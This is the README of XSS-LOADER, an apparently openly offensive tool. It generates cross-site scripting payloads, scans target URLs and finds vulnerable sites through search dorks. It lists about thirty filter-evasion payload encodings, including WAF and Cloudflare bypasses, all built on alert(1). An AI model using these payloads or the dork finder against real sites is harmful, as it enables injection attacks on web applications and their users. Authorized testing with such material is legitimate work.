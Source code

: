   # :gem:  &nbsp;  XSS-LOADER TOOLS  &nbsp;  :gem:

All in one tools for **XSS PAYLOAD GENERATOR -XSS SCANNER-XSS DORK FINDER**

## Screenshot 
![Screenshot](https://i.postimg.cc/NBhz23wS/Screenshot-20200501-014953-Termux.jpg) 

## 📒 Read Me 📒

* This tool creates payload for use in xss injection
* Select default payload tags from parameter or  write your payload
* It makes xss inj. with Xss Scanner parameter
* It finds vulnerable sites url with Xss Dork Finder parameter

##  :cd: Installation  :cd:
### Installation with requirements.txt

```bash
git clone https://github.com/capture0x/XSS-LOADER/
cd XSS-LOADER
pip3 install -r requirements.txt
```

## Usage

```bash
python3 payloader.py
```

## 🗃️  Features  🗃️

#### *Basic Payload

Sets default parameter to :```<script>alert(1)</script>```

#### *Div Payload

Sets default parameter to :```<div onpointerover='alert(1)'>MOVE HERE</div```

#### *Img Payload

Sets default parameter to :```<img src=x onerror=alert('1');>```

#### *Body Payload

Sets default parameter to :```<body ontouchstart=alert(1)>```

#### *Svg Payload

Sets default parameter to :```<svg onload=alert('1')>```

#### *Enter Your Payload

Encodes payload writed by user

#### *Payload Generator Parameter

Encodes payload on selected tag

#
```
* |   1.  UPPER CASE---->  <SCRIPT>ALERT(1)</SCRIPT>              
* |   2.  UPPER AND LOWER CASE----> <ScRiPt>aleRt(1)</ScRiPt>   
* |   3.  URL ENCODE ----->   %3Cscript%3Ealert%281%29%3C%2Fscript%3E           
* |   4.  HTML ENTITY ENCODE----->  &lt;script&gt;alert(1)&lt;/script&gt; 
* |   5.  SPLIT PAYLOAD ----->  <scri</script>pt>>alert(1)</scri</script>pt>>       
* |   6.  HEX ENCODE ----->  3c7363726970743e616c6572742831293c2f7363726970743e       
* |   7.  UTF-16 ENCODE -----> Encode payload to utf-16 format.   
* |   8.  UTF-32 ENCODE----->  Encode payload to utf-32 format.          
* |   9.  DELETE TAG -----> ";alert('XSS');//            
* |  10.  UNICODE ENCODE----->    %uff1cscript%uff1ealert(1)%uff1c/script%uff1e         
* |  11.  US-ASCII ENCODE ----->  ¼script¾alert(1)¼/script¾      
* |  12.  BASE64 ENCODE ----->   PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==          
* |  13.  UTF-7 ENCODE ----->   +ADw-script+AD4-alert(1)+ADw-/script+AD4-           
* |  14.  PARENTHESIS BYPASS ----->  <script>alert`1`</script>   
* |  15.  UTF-8 ENCODE ----->  %C0%BCscript%C0%BEalert%CA%B91)%C0%BC/script%C0%BE          
* |  16.  TAG BLOCK BREAKOUT-----> "><script>alert(1)</script>
* |  17.  SCRIPT BREAKOUT----->  </script><script>alert(1)</script>
* |  18.  FILE UPLOAD PAYLOAD-----> "><script>alert(1)</script>.gif
* |  19.  INSIDE COMMENTS BYPASS-----> <!--><script>alert(1)</script>-->
* |  20.  MUTATION PAYLOAD-----> <noscript><p title="</noscript><script>alert(1)</script>">
* |  21.  MALFORMED IMG-----> <IMG """><script>alert(1)</script>">
* |  22.  SPACE BYPASS-----> <img^Lsrc=x^Lonerror=alert('1');>
* |  23.  DOWNLEVEL-HIDDEN BLOCK-----> <!--[if gte IE 4]><script>alert(1)</script><![endif]-->
* |  24.  WAF BYPASS PAYLOADS-----> Show Waf Bypass Payload List
* |  25.  CLOUDFLARE BYPASS PAYLOADS-----> Show Cloudflare Bypass Payload List
* |  26.  POLYGLOT PAYLOADS-----> Show Polyglot Bypass Payload List
* |  27.  ALERT PAYLOADS-----> Show Alert Payload List
* |  28.  ALL CREATE PAYLOAD-----> Show Create All Payloads
* |  29.  GO BACK MAIN MENU
* |  30.  EXIT
```

#### *Xss Scanner

Initially you'll need to enter url of target
Please enter the url like this example==>e.g target -----> http://target.com/index.php?name=
Selected for scanning payload list

* BASIC PAYLOAD LIST   ==> Payload list consisting of script tag
* DIV PAYLOAD LIST     ==> Payload list consisting of div tag
* IMG PAYLOAD LIST     ==> Payload list consisting of img tag
* BODY PAYLOAD LIST    ==> Payload list consisting of body tag
* SVG PAYLOAD LIST     ==> Payload list consisting of svg tag
* MIXED PAYLOAD LIST   ==> Payload list consisting of all tag
* ENTER FILE PATH      ==> Payload list determined by the user ,Please enter the url like this example..!
(e.g. path -----> /usr/share/wordlists/wfuzz/Injections/XSS.txt)

Results will be added in "vulnpayload.txt" after scanning.

#### *Xss Dork Finder

First enter the dork for searching:
   e.g---->inurl:"search.php?q="
Results will be saved in "dork.txt" after scanning.

## Known Issues

### Fixed:
- Unicode errors

- Module errors

### My Accounts
* [TELEGRAM](https://t.me/termuxxhacking)
* [FACEBOOK](https://www.facebook.com/termuxxhacking)
* [INSTAGRAM](https://instagram.com/termux_hacking)

**Copyright 2020**
